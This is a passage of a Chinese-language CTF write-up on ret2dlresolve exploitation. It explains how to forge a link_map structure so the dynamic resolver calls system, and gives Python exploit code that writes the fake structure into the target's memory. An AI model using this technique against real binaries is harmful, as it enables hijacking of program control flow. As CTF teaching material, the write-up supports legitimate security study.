 继续结合调试分析 `link_map` 伪造格式：

```python
fake_link_map = flat({
    0x00: [l_addr],      # 存放自定义偏移值
    0x68: [your_strtab], # 避免段错误，l_info[DT_STRTAB]
    0x70: [fake_symtab], # 这里需要构造一个已解析的 symtab，事实上通常指向第一个 got 表项函数 - 8 的地址
    0xF8: [fake_rel],    # 这里绕过 assertion，value 需要指向 [writeable_addr - l_addr, 7]
})
```

这里值得思考的是 `fake_symtab` 的构造，其它都可以根据调试逆推得到：

1. 首先最终利用要借助 `l->l_addr + sym->st_value`，前者已经能够由伪造 `link_map` 任意控制，后者最好是一个已解析的 got 表项的值。

2. 还要绕过 `sym->st_other != 0`，调试可以得到 `( *(sym + 5) ) & 0x03 != 0` 的条件。

故 got 表项中的第一项是最合适的 `sym->st_value` 值，同时也符合条件 2。
#### 解题

回到题目中，泄漏 elf 基地址的方法是一样的，在此之后可以按照上述思路构造出如下 `fake_link_map` 结构：

```python
my_buf = elf_base + 0x4000 + 0x300
l_addr = libc.sym.system - libc.sym.puts
r_offset = my_buf + 0x200 - l_addr
fake_rel_addr = my_buf + 0x38

if l_addr < 0:
    l_addr = (1 << 64) + l_addr

lg("l_addr", l_addr)

dynstr = elf.get_section_by_name(".dynstr").header.sh_addr + elf_base
plt0 = elf.get_section_by_name(".plt").header.sh_addr + elf_base
lg("my_buf", my_buf)
lg("dynstr", dynstr)
lg("plt0", plt0)

send_payload(
    my_buf,
    [
        l_addr,
        0x05,
        dynstr,
        0x06,
        elf.got.puts + elf_base - 8,
        0x11,
        fake_rel_addr,
        r_offset,
        7,
        0,
        0,
        0,
        0,
        my_buf + 0x08,
        my_buf + 0x18,
    ],
)

send_payload(my_buf + 0xF8, [my_buf + 0x28])
```
